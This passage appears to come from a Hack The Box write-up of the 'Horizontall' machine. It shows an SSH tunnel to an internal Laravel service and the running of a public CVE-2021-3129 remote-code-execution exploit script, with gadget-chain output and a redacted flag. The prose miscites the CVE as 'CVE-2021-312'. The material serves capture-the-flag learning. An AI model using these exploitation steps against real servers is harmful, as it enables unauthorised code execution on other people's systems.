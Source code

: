 ```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ ssh -i ~/.ssh/id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb              3 ⚙
Last login: Sun Sep 19 05:14:43 2021 from 10.10.14.24
$ 
```

![Laravel page](https://github.com/joelczk/writeups/blob/main/HTB/Images/horizontall/laravel_page.PNG)

After some researching, we realize that laravel v8 is vulnerable to CVE-2021-312. We will download the exploit script from [here](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py) and modify it to read the system flag.

```
┌──(kali㉿kali)-[~/Desktop/CVE-2021-3129]
└─$ python3 exp.py http://127.0.0.1:8000/
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:


[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:


[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:


[*] Try to use Laravel/RCE4 for exploitation.
[+]exploit:
[*] Laravel/RCE4 Result:


[*] Try to use Laravel/RCE5 for exploitation.
[+]exploit:
[*] Laravel/RCE5 Result:

<Redacted system flag>
```
